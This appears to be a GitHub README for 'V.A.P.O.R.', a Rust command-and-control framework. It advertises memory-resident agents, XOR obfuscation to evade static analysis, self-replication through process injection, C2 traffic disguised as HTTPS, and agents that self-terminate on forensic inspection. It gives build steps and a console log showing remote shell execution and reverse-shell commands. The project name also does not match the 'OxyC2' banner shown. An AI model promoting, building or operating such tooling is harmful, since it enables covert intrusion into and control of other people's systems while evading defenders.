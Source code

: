 # V.A.P.O.R. 

**V**ysache's **A**utonomous **P**ropagation **O**bfuscation **R**outines  
*"Let your infrastructure quietly replicate itself."*

![Rust](https://img.shields.io/badge/Rust-1.67+-informational?logo=rust)
![Version](https://img.shields.io/badge/Version-0.1.0_Alpha-cyan)

A stealth-first C2 framework where infrastructure replication meets Rust-powered opsec.  

---

## Features ✨
- **Ephemeral Propagation**: Leave no disk artifacts through memory-resident agents
- **XOR Obfuscation Routines**: On-the-fly payload mutation to evade static analysis
- **Autonomous Replication**: Self-deploying agents via trusted process injection
- **TLS-Encrypted C2 Channels**: Mimics legitimate HTTPS traffic patterns
- **Plausible Deniability Architecture**: Agents self-terminate on forensic inspection

---

## Quick Start 🚀

### Installation
```bash
# Clone repo
git clone https://github.com/hexkaster/vapor-c2.git
cd vapor-c2

# Build with Cargo 
cargo build --release
```

run server:

```sh
./target/debug/server

```

compile client with the correct IP address:
```sh
   ____              _____ ___
  / __ \            / ____|__ \
 | |  | |_  ___   _| |       ) |
 | |  | \ \/ / | | | |      / /
 | |__| |>  <| |_| | |____ / /_
  \____//_/\_\\__, |\_____|____|
               __/ |
              |___/    - By @hexkaster

       Type 'help' for help.

[2024-09-07T17:49:10Z INFO  actix_server::builder] Starting 8 workers
[2024-09-07T17:49:10Z INFO  actix_server::builder] Starting "actix-web-service-0.0.0.0:8080" service on 0.0.0.0:8080
No previous history.
oxyc>> help
Available commands:
  sessions            - List all communicating beacons
  use [session index] - Use session
  help                - Display this help message
  exit                - Exit the current session
  cmd [command]       - Execute a shell command
  revshell            - Set up a reverse shell
  compile client [ip] - Compile client with specific IP address
oxyc>> compile client
Compiling client with IP: 192.168.15.8
Client compiled successfully with IP: 192.168.15.8
oxyc>>
```

run client:

```sh
./target/release/c2lient

```
